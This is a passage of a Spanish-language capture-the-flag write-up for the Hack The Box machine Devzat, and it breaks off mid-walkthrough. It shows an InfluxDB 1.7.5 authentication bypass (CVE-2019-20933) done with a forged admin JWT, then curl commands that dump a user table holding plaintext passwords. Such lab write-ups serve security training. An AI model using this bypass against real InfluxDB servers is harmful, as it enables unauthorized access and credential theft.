 Aquí vemos que nos ejecuta el comando id con éxito, con esto podemos entablarnos una conexión a nuestra máquina. Una vez dentro podemos utilizar el chat con nuestro usuario patrick para revisar que nuevos datos tenemos. Vemos que hablan sobre un servicio de influxdb donde nosotros podremos acceder.

```shell
patrick@devzat:~$ ssh patrick@devzat.htb -p 8000
The authenticity of host '[devzat.htb]:8000 ([127.0.0.1]:8000)' can't be established.
RSA key fingerprint is SHA256:f8dMo2xczXRRA43d9weJ7ReJdZqiCxw5vP7XqBaZutI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[devzat.htb]:8000' (RSA) to the list of known hosts.
admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
devbot: admin has left the chat
Welcome to the chat. There are no more users
devbot: patrick has joined the chat
patrick: 
```
Al intentarnos conectar nos solicita permisos

```shell
patrick@devzat:/home$ curl -G 'http://localhost:8086/query' --data-urlencode 'q=SHOW DATABASES'
{"error":"unable to parse authentication credentials"}
```
Al revisar las cabeceras de respuesta encontramos la versión de influxdb, con esto buscamos y vemos que existe una vulnerabilidad para pasar la autenticación.

```shell
patrick@devzat:/home$ curl -G 'http://localhost:8086/query' --data-urlencode 'q=SHOW DATABASES' -I
HTTP/1.1 405 Method Not Allowed
Allow: OPTIONS, GET, POST
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
X-Influxdb-Build: OSS
X-Influxdb-Version: 1.7.5
Date: Tue, 11 Apr 2023 18:55:30 GMT
Content-Length: 19
```
Usando el código de este [script](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933/blob/252ecf80539dba1631f9a3e0fad58122bc7ab2a9/__main__.py#L61) podemos crear nusetro propio jwt para validarnos ante el servicio. Vemos que funciona y obtenemos las bases de datos que existen.

```shell
patrick@devzat:/dev/shm$ curl -G 'http://localhost:8086/query' --data-urlencode 'q=SHOW DATABASES' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjgzODY5MjQzLjB9.pSJiH3hpAIBfEVlLgS9lmCTL7AK5oGcr1erIy8FBy1Q'
{"results":[{"statement_id":0,"series":[{"name":"databases","columns":["name"],"values":[["devzat"],["_internal"]]}]}]}
```
Enumeramos los usuarios de la base de datos devzar y encontramos la contraseña de catherine.

```shell
patrick@devzat:/dev/shm$ curl -G 'http://localhost:8086/query' --data-urlencode "q=select * from \"user\"" -d "db=devzat" -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjgzODY5MjQzLjB9.pSJiH3hpAIBfEVlLgS9lmCTL7AK5oGcr1erIy8FBy1Q'
{"results":[{"statement_id":0,"series":[{"name":"user","columns":["time","enabled","password","username"],"values":[["2021-06-22T20:04:16.313965493Z",false,"WillyWonka2021","wilhelm"],["2021-06-22T20:04:16.320782034Z",true,"woBeeYareedahc7Oogeephies7Aiseci","catherine"],["2021-06-22T20:04:16.996682002Z",true,"RoyalQueenBee$","charles"]]}]}]}
```
Revisamos el chat de catherine como lo hicimos con el usuario patrick y encontramos lo siguiente.
